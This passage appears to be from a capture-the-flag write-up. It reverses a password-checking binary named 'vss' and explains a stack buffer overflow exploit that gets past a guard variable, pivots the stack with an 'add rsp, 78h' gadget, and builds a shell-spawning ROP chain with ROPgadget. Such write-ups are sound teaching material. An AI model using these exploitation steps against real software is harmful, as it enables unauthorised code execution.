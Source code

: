     .text:0000000000401159     mov     eax, 0
    .text:000000000040115E     call    open_437E40                 ; open()
    .text:0000000000401163     mov     [rbp+fd_8], eax
    .text:0000000000401166     cmp     [rbp+fd_8], 0FFFFFFFFh
    .text:000000000040116A     jnz     short FILE_OK_401176        ; file found
    .text:000000000040116C     mov     edi, 0FFFFFFFFh
    .text:0000000000401171     call    exit_407700
    .text:0000000000401176 ; ---------------------------------------------------------------------------
    .text:0000000000401176
    .text:0000000000401176 FILE_OK_401176:      ; CODE XREF: pw_check_40108E+DCj
    .text:0000000000401176     lea     rcx, [rbp+enc_30]           ; file found
    .text:000000000040117A     mov     eax, [rbp+fd_8]
    .text:000000000040117D     mov     edx, 28h                    ; arg3: 0x28
    .text:0000000000401182     mov     rsi, rcx                    ; arg2: buf
    .text:0000000000401185     mov     edi, eax                    ; arg1: fd
    .text:0000000000401187     call    read_437EA0                 ; read()
    .text:000000000040118C     lea     rdx, [rbp+enc_30]
    .text:0000000000401190     lea     rax, [rbp+pw_40]
    .text:0000000000401194     mov     rsi, rdx                    ; arg2: enc
    .text:0000000000401197     mov     rdi, rax                    ; arg1: pw
    .text:000000000040119A     call    strcmp_400360               ; strcmp()
    .text:000000000040119F     test    eax, eax
    .text:00000000004011A1     jnz     short NOT_EQUAL_4011AA
    .text:00000000004011A3     mov     eax, 1                      ; success!
    .text:00000000004011A8     jmp     short locret_4011AF

The first 0x50 bytes are copied directly on the stack, so we can overwrite return address.
But if we execute function body, things will go wrong. The problem is the loop at 0x401116
will eventually overwrite guard variable, so we'll end up in a huge guard value (3 MSB are 0
so they will become 0x66) until we segfault.

To get rid of all these problems we simply set the first 2 character to 'py'. If we do that
we can control return address. However we cannot ROP because we can't write anything below
RIP. To overcome this problem we need to "push" the stack up; We need to return to a gadget
that will move the stack first, so we can continue ROPing in stack address that we can
control from the original 0x400 buffer copy on main. We need an "add rsp, XX" gadget where
XX is big enough to move us on main's buffer. Here's a suitable gadget:

    .text:00000000004055B6 48 83 C4 78    add     rsp, 78h
    .text:00000000004055BA 4C 89 E8       mov     rax, r13
    .text:00000000004055BD 5B             pop     rbx
    .text:00000000004055BE 5D             pop     rbp
    .text:00000000004055BF 41 5C          pop     r12
    .text:00000000004055C1 41 5D          pop     r13
    .text:00000000004055C3 41 5E          pop     r14
    .text:00000000004055C5 41 5F          pop     r15
    .text:00000000004055C7 C3             retn

After that all we have to do is to calculate the right offsets and continue ROPing. By using
ROPgadget, we can find a ROP chain to execute our shell:

	 /opt/ROPgadget/ROPgadget.py --binary vss_72e30bb98bdfbf22307133c16f8c9966 --ropchain
